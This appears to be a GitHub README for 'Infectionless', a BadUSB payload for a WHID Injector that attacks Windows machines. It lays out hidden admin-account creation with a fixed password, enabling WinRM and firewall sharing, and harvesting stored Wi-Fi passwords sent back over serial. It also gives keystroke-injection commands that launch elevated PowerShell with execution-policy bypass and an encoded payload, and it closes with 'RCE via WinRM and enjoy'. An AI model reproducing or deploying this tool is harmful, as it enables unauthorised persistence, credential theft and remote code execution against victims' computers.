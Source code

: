 # Infectionless

BadUSB payload for Windows that enables WinRM and Exfiltrates WIFI passwords.

This payload is prepared for WHID Injector Serial exfiltration method and needs local admin privs.

<br><br>

How it works (check infectionless.ps1 for details):

1. create a local administrator user account (Guest:123456)
2. hidde the user account
3. enables WinRM, wich will automatically enable FilterAdministratorToken=1
4. enables in firewall "file and printer sharing" needed for WinRM connection
5. grab WIFI keys and exfiltrate them to the WHID injector via Serial

<br><br>

Change Strings to the target system language (by default in Spanish):
* netsh advfirewall firewall set rule group="Compartir archivos e impresoras" new enable=Yes
* $SSIDSearchResult = $profileOutput| Select-String -Pattern 'Nombre de SSID'
* $passwordSearchResult = $profileOutput| Select-String -Pattern 'Contenido de la clave'

Change VID and PID to your WHID Injectors (get them with USBLogView):
* $s=(Get-WmiObject -Class Win32_PnPEntity -Namespace "root\CIMV2" -Filter "PNPDeviceID like'USB\\VID_1b4f&PID_9208%'").Caption


<br><br>

WHID Injector payload


`Press:131+114`

`Print:powershell Start-Process cmd -Verb runAs`

`Press:176`

`CustomDelay:1500`

`Press:216`

`Press:176`

`Press:176`

`PrintLine:powershell -nop -noni -w 1 -Exec Bypass -ec <encoded-payload>`

<br><br>

Then connect to the victim Wifi to get LAN access (use Yagi antenna).

RCE via WinRM and enjoy :)

![](/img/cme-winrm.png "CME WinRM")